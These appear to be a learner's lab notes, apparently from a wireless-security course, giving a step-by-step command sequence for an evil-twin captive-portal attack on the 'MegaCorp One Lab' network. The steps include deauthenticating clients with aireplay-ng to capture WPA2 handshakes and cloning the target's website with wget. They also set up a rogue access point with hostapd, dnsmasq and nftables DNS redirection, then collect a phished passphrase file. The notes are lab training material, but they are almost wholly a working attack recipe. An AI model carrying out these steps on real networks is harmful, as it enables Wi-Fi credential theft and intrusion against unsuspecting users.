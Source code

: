 ## Captive Portal

sudo airodump-ng -w discovery --output-format pcap wlan0mon

BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

00:0E:08:90:3A:5F  -75        3        0    0  11  130   WPA2 CCMP   PSK  MegaCorp One Lab


#deauth to capture handshakes on seperate terminal
sudo aireplay-ng -0 0 -a 00:0E:08:90:3A:5F wlan0mon

grab handshake to use later


## Building the Captive Portal

sudo apt install apache2 libapache2-mod-php


## recursive download for background images - this will download to www.megacorpone.com

wget -r -l2 https://www.megacorpone.com

##

mkdir /var/www/html/portal/

sudo cp -r ./www.megacorpone.com/assets/ /var/www/html/portal/
sudo cp -r ./www.megacorpone.com/old-site/ /var/www/html/portal/


nano /var/www/html/portal/index.php
nano /var/www/html/portal/login_check.php
nano /var/www/html/portal/login_check2.php

sudo chmod 644 *.php

mkdir /data
sudo chown www-data:www-data /data

## network

sudo ip addr add 192.168.87.1/24 dev wlan0

sudo ip link set wlan0 up

sudo systemctl enable dnsmasq && sudo systemctl enable hostapd
sudo pkill dnsmasq

sudo ufw allow in 53 tcp
sudo ufw allow in 53 udp
sudo ufw allow in 67 udp


sudo dnsmasq --conf-file=/home/administrator/mco-dnsmasq.conf --test
sudo dnsmasq --conf-file=mco-dnsmasq.conf
##debugging
sudo dnsmasq --conf-file=/home/administrator/mco-dnsmasq.conf --log-debug -d

sudo systemctl status dnsmasq.service
sudo netstat -lnp
sudo cat /var/log/dnsmasq.log


sudo apt install nftables
sudo nft add table ip nat
sudo nft 'add chain nat PREROUTING { type nat hook prerouting priority dstnat; policy accept; }'
sudo nft add rule ip nat PREROUTING iifname "wlan0" udp dport 53 counter redirect to :53

sudo nft list table ip nat
table ip nat {
        chain PREROUTING {
                type nat hook prerouting priority dstnat; policy accept;
                iifname "wlan0" udp dport 53 counter packets 0 bytes 0 redirect to :53
        }
}



## Apache2

nano etc/apache2/sites-enabled/000-default.conf

sudo a2enmod rewrite
sudo a2enmod alias
sudo a2enmod ssl
sudo systemctl restart apache2



## hostapd
nano mco-hostapd.conf
sudo hostapd -B mco-hostapd.conf








sudo tail -f /var/log/apache2/access.log
sudo find /tmp/ -iname passphrase.txt
